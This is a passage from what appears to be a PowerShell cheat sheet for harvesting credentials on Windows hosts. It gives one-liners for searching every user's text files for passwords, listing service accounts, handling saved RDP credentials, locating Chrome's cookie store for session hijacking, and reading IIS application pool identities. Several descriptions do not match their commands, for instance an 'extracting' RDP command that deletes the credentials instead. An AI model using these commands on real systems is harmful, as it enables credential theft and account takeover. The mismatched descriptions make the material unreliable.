 This command utilizes the PSCredentialManager module to extract stored credentials from the Windows Credential Manager, focusing on generic credentials.

---

## **Retrieving Passwords from Unsecured Files**



`Select-String -Path C:\Users\*\Documents\*.txt -Pattern 'password' -CaseSensitive`

Searches for the term 'password' in all text files within the Documents folders of all users, which can reveal passwords stored insecurely.

---

## **Dumping Credentials from Windows Services**



`Get-WmiObject win32_service | Where-Object {$_.StartName -like '*@*'} | Select-Object Name, StartName, DisplayName`

Lists Windows services that are running under a specific user account, which can sometimes include credentials in the service configuration.

---

## **Extracting Saved RDP Credentials**



`cmdkey /list | Select-String 'Target: TERMSRV' | ForEach-Object { cmdkey /delete:($_ -split ' ')[-1] }`

Lists and deletes saved Remote Desktop Protocol (RDP) credentials, which can be used to access remote systems.

---

## **Retrieving Browser Cookies for Credential Theft**



`$env:USERPROFILE + '\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item`

Accesses the Chrome browser's Cookies file, which can contain session cookies that might be exploited for session hijacking.

---

## **Extracting Credentials from IIS Application Pools**



`Import-Module WebAdministration; Get-IISAppPool | Select-Object Name, ProcessModel`

Retrieves configuration details of IIS Application Pools, including service accounts, which might contain credentials.

---